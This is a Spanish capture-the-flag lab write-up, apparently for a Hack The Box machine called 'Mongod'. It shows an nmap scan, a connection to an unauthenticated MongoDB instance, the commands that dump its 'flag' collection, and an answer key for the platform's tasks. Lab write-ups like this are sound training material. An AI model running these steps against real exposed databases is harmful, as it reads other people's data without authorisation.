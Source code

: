 # Mongod

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **MongoDB**: Base de datos NoSQL de código abierto que almacena datos en formato JSON (BSON). Es popular por su flexibilidad y escalabilidad, pero requiere configuraciones adecuadas para prevenir vulnerabilidades como la exposición de puertos sin protección o la falta de autenticación.
  * **Databases (Bases de Datos)**: Sistemas de almacenamiento de datos organizados que permiten la gestión y recuperación eficiente de información. Las bases de datos pueden ser relacionales (SQL) o no relacionales (NoSQL), y una configuración incorrecta o sin medidas de seguridad adecuadas puede poner en riesgo la integridad y confidencialidad de los datos.
  * **Reconnaissance (Reconocimiento)**: Proceso de recolección de información sobre un objetivo para identificar posibles puntos de ataque. Esto incluye el análisis de servicios activos, puertos abiertos, sistemas operativos, y más. Es una fase clave en las pruebas de penetración.
  * **Misconfiguration (Mala Configuración)**: Error en la configuración de un sistema, red o servicio que crea vulnerabilidades de seguridad. Ejemplos incluyen configuraciones incorrectas de firewalls, permisos excesivos, o puertos abiertos innecesarios, que pueden ser explotados por atacantes.
  * **Anonymous/Guest Access (Acceso Anónimo/Acceso de Invitado)**: Acceso permitido a un sistema o recurso sin la necesidad de autenticarse. Si no se configura correctamente, este tipo de acceso puede permitir que usuarios no autorizados exploren o modifiquen datos de un sistema, aumentando el riesgo de explotación.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.163.203
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sV -T4 -vv -p- 10.129.163.203
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 154557.png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **27017** correspondiente a **MongoDB** están abiertos. A continuación, se indagará más sobre estos servicios.

Descargamos MongoDB.

```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

Ejecutamos dentro del directorio.

```bash
./mongo mongodb://10.129.163.203:27017
```

Estando dentro vemos la información.

```
show dbs
use sensitive_information;
show collections;
db.flag.find().pretty();
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1**

¿Cuántos puertos TCP están abiertos en la máquina?\
**Respuesta:** `2`

**Task 2**

¿Qué servicio se está ejecutando en el puerto 27017 del host remoto?\
**Respuesta:** `MongoDB 3.6.8`

**Task 3**

¿Qué tipo de base de datos es MongoDB? (Elige: SQL o NoSQL)\
**Respuesta:** `NoSQL`

**Task 4**

¿Cuál es el nombre del comando para la shell de MongoDB que se instala con el paquete `mongodb-clients`?\
**Respuesta:** `Mongosh`

**Task 5**

¿Qué comando se usa para listar todas las bases de datos presentes en el servidor de MongoDB?\
**Respuesta:** `show dbs`

**Task 6**

¿Qué comando se usa para listar las colecciones dentro de una base de datos?\
**Respuesta:** `show collections`

**Task 7**

¿Qué comando se usa para volcar el contenido de todos los documentos dentro de la colección llamada `flag` en un formato fácil de leer?\
**Respuesta:** `db.flag.find().pretty()`
